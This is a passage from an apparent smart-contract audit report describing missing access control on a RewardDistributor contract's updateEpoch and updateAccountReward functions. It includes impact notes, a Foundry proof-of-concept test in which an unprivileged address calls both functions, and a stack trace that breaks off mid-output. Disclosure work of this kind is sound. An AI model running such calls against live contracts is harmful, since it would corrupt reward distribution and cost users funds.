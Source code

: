 4. **Financial and Reputational Damage:** Beyond the immediate impact on token management and reward distributions, exploiting these vulnerabilities could lead to financial losses for users and damage the trust and reliability perceived in the platform, potentially causing long-term reputational harm to the project.
5. **System-Wide Inconsistencies:** Continuous exploitation of these vulnerabilities could lead to widespread inconsistencies across the staking and reward systems, making it challenging to restore integrity and confidence without significant rollback or system-wide updates, which may include pausing the contract, upgrading, or even a complete redeployment.

##### Proof of Concept

In order to reproduce this vulnerability, a simple call to `updateEpoch` and `updateAccountRewards` by a malicious actor would suffice to exploit the contract state and lead to undesired reward distribution and accounting.

**- Foundry test**

```
    function test_RewardDistributor_missing_access_control() public {
        vm.startPrank(seraph);
        /// calls `updateEpoch` with the current unix
        /// timestamp for the epoch.
        reward_distributor.updateEpoch(1715207594);
        /// calls `updateAccountReward` passing another
        /// user (ghost) and epoch `0` as parameters.
        reward_distributor.updateAccountReward(ghost, 0);
        vm.stopPrank();
    }
```

  

**- Stack traces**

```
  [273596] Halborn_QodaToken_test_Unit::test_RewardDistributor_missing_access_control()
    ├─ [0] VM::startPrank(0x4CCeBa2d7D2B4fdcE4304d3e09a1fea9fbEb1528)
    │   └─ ← [Return] 
    ├─ [251605] TransparentUpgradeableProxy::updateEpoch(1715207594 [1.715e9])
    │   ├─ [246660] RewardDistributor::updateEpoch(1715207594 [1.715e9]) [delegatecall]
    │   │   ├─ [46493] TransparentUpgradeableProxy::totalVe(1704067200 [1.704e9]) [staticcall]
    │   │   │   ├─ [41545] VeQoda::totalVe(1704067200 [1.704e9]) [delegatecall]
    │   │   │   │   └─ ← [Return] 0
    │   │   │   └─ ← [Return] 0
    │   │   ├─ emit EpochUpdate(epochNumber: 2, epochStartTime: 1704067200 [1.704e9], totalSupply: 0)
    │   │   ├─ [7993] TransparentUpgradeableProxy::totalVe(1704931200 [1.704e9]) [staticcall]
    │   │   │   ├─ [7545] VeQoda::totalVe(1704931200 [1.704e9]) [delegatecall]
    │   │   │   │   └─ ← [Return] 0
    │   │   │   └─ ← [Return] 0
    │   │   ├─ emit EpochUpdate(epochNumber: 3, epochStartTime: 1704931200 [1.704e9], totalSupply: 0)
    │   │   ├─ [7993] TransparentUpgradeableProxy::totalVe(1705795200 [1.705e9]) [staticcall]
    │   │   │   ├─ [7545] VeQoda::totalVe(1705795200 [1.705e9]) [delegatecall]
    │   │   │   │   └─ ← [Return] 0
    │   │   │   └─ ← [Return] 0
    │   │   ├─ emit EpochUpdate(epochNumber: 4, epochStartTime: 1705795200 [1.705e9], totalSupply: 0)
    │   │   ├─ [7993] TransparentUpgradeableProxy::totalVe(1706659200 [1.706e9]) [staticcall]
    │   │   │   ├─ [7545] VeQoda::totalVe(1706659200 [1.706e9]) [delegatecall]
    │   │   │   │   └─ ← [Return] 0
    │   │   │   └─ ← [Return] 0
    │   │   ├─ emit EpochUpdate(epochNumber: 5, epochStartTime: 1706659200 [1.706e9], totalSupply: 0)
    │   │   ├─ [7993] TransparentUpgradeableProxy::totalVe(1707523200 [1.707e9]) [staticcall]
    │   │   │   ├─ [7545] VeQoda::totalVe(1707523200 [1.707e9]) [delegatecall]
    │   │   │   │   └─ ← [Return] 0
```